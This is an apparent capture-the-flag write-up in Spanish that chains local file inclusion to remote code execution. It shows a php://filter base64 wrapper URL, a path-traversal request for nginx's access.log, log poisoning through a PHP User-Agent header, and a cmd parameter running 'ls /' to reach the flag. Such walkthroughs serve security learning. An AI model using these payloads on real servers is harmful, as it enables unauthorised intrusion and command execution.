# LFI: Información Expuesta -> LFI -> RCE 🔃⚔

La página web que vulneraremos es



* Para incluir un **archivo** tenemos el parámetro `?page=[Archivo]`

---

Tras testear múltiples payloads no conseguí información alguna, por lo que ahora, usaremos un `wrapper`, especificamente para obtener el contenido de un archivo en **base64**.

* **URL:** `http://<IP Web>:<Puerto>/index.php?page=php://filter/read=convert.base64-encode/resource=index`

<p align="center">
    
</p>

---

Decodemos el contenido obtenido, lo guardamos en un archivo y obtenemos:

* Decodear y guardar en un archivo
    ```bash
    echo "[Contenido en Base64 Obtenido]" | base64 -d > index.php
    ```

* Vemos contenido interesante en `index.php`

<p align="center">
    
</p>


* Conseguimos otra ruta en el sistema. 🎯

---

<p align="center">
    
</p>

* Veemos el filtro que se aplica al argumento que se le pasa. 🎈

---

Visitamos la ruta obtenida previamente.

* **URL:** `http://<IP web>:<Puerto>/ilf_admin/index.php?log=system.log`



---

Después de fuzzear la página web, vemos esto:

<p align="center">
    
</p>

Si por curiosidad lo visitamos
* **URL:** `http://<IP Web>:<Puerto>/ilf_admin/logs/`

<p align="center">
    
</p>

---

Con la información anterior, veremos si podemos `leer los logs` del servidor nginx. 🏴

* **URL:** `http://<IP Web>:<Puerto>/ilf_admin/index.php?log=../../../../../../var/log/nginx/access.log`


<p align="center">
    
</p>

---

Para lograr un `RCE` haremos un `Log Poisoning` 💀. Para esto interceptaremos una solicitud con **Burp Suite** y cambiaremos la `cabecera User-Agent` por código PHP, el cual nos permitirá ejecutar comandos mediante el parámetro `?cmd=[Comando]`

<p align="center">
    
</p>

---

Ahora ejecutaremos un comando para listar los archivos de la raíz `/`

* **URL:** `http://<IP Web>:<Puerto>/ilf_admin/index.php?log=../../../../../../var/log/nginx/access.log&cmd=ls /`

<p align="center">
    
</p>

---

Por último, leemos el archivo `flag`.txt

<p align="center">
    
</p>